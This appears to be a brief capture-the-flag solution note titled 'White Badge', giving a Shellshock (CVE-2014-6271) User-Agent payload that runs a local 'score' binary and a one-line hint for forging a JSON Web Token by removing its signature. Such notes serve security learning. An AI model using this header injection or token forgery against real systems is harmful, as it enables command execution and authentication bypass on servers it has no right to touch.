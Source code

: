 # White Badge

### CVE-2014-6271/Shellshock

Payload:

```
User-Agent: () { :;}; /usr/local/bin/score
```

Add the part to user agent and have fun!

### JSON Web Token

So remove the verification part. And re-encode stuff in base64 as per need!
